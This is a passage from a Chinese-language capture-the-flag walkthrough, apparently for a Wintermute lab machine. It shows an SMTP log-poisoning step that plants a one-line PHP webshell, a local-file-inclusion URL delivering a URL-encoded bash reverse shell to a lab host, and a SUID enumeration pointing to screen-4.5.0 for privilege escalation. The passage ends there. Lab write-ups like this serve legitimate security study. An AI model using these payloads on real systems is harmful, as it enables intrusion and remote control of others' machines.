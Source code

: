 尝试上传一个一句话木马：

```smtp
telnet 192.168.244.130 25
HELO ctfer
MAIL FROM: ctfer@gmail.com
RCPT TO: wintermute
subject: <?php system($_REQUEST['ctf']);?>
.
quit
```

![image-20240303152422504](https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849268.png)

尝试弹个反向shell：

```bash
bash -c "bash -i >& /dev/tcp/192.168.244.132/1234 0>&1"
bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.244.132%2f1234+0%3e%261%22
```

```bash
http://192.168.244.130/turing-bolo/bolo.php?bolo=/var/log/mail&ctf=bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f192.168.244.132%2f1234+0%3e%261%22
```

<img src="https://pic-for-be.oss-cn-hangzhou.aliyuncs.com/img/202403141849269.png" alt="image-20240303153528246" style="zoom:50%;" />

获取到了一个shell！

## 提权

### 先查看一下suid文件

```bash
find / -perm -4000 2>/dev/null
```

```apl
/bin/su
/bin/umount
/bin/mount
/bin/screen-4.5.0
/bin/ping
/usr/bin/gpasswd
/usr/bin/chsh
/usr/bin/chfn
/usr/bin/passwd
/usr/bin/newgrp
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/openssh/ssh-keysign
```

似乎`screen`可以利用，查看一下`sudo screen`，发现没有`sudo`命令：
